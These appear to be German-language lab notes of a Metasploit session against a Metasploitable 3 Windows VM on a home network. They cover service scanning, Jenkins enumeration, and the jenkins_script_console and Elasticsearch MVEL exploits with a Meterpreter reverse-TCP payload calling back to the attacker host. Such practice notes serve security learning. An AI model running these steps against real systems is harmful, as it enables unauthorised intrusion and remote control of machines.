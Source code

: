 > ip a
Kali LHOST: (Angreifer)   192.168.0.19

> ipconfig
W2KB RHOST: (Verteidiger) 192.168.0.24

# Anleitung: https://www.youtube.com/watch?v=4HOGfSQEYuE

> msfconsole
> msfdb init
> nvim msf.md  		(File für Output von Schwachstellen)
> workspace -a msp3win
> workspace

> db_nmap 192.168.0.24 -p 8585, 8484	 (Defender)
> use auxiliary/scanner/http/http_version
> options
> setg RHOST (rhost)
> setg RHOSTS (rhost)
> set RPORT 9200
> run
> set RPORT 8484 (wegen [chaty]/tomcat (für javae))
> run
> set RPORT 8585
> run


-- Defender IP in Addressleiste in Google eingeben + Port 9200 = Elasticsearch output
-- -"- + Port 8484 = Jenkins
-- -"- + Port 8585 = WampServer (auf phpinfo kann man zugreifen)


> search jenkins
> use auxiliary/scanner/http/jenkins_enum
> options
> set targeturi /
> set rport 8484
> run


-- metersploit wird von Besessenen geschrieben


> search jenkins
> grep exploit search jenkins
> use exploit/multi/http/jenkins_script_console
> options
> set rport 8484
> set targeturi /
> info 					(looking into expoloiting stuff)
> set payload windows/meterpreter/reverse_tcp
> set lhost (Angreifer)
> set lport 5555
> exploit
> ...?
> unse exploit/multi/elasticsearch/script_mvel_rce
> set lport 9999
> exploit